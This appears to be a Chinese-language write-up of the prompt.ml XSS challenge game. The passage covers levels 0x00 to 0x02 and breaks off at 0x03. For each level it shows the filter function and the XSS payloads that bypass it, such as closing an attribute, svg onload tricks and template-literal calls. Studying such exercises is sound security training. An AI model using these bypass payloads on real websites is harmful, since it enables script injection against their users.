 # prompt(1) to win



<a rel="noreferrer noopener" href="http://prompt.ml" target="_blank" rel="nofollow" >http://prompt.ml</a>

<div class="has-toc have-toc">
</div>

## 0x00

<pre class="wp-block-code"><code>function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '&lt;input type="text" value="' + input + '">';
}        </code></pre>

简单闭合下，构造`"><script>prompt(1);</script>`

## 0x01

<pre class="wp-block-code"><code>function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /&lt;\/?&#91;^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '&lt;article>' + input + '&lt;/article>';
}   </code></pre>

可以用换行或者注释绕过，构造`<svg/onload=prompt(1)//`<figure class="wp-block-image size-full">

<img loading="lazy" width="471" height="145" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-176.png" alt="" class="wp-image-2922" /> </figure> 

## 0x02

<pre class="wp-block-code"><code>function escape(input) {
    //                      v-- frowny face
    input = input.replace(/&#91;=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}  </code></pre>

可以构造如下的payload：

<pre class="wp-block-code"><code>&lt;script>eval.call`${'prompt\x281)'}`&lt;/script> 
&lt;script>prompt.call`${1}`&lt;/script>
&lt;svg>&lt;script>prompt&#40;1)&lt;/script>
......</code></pre>

## 0x03
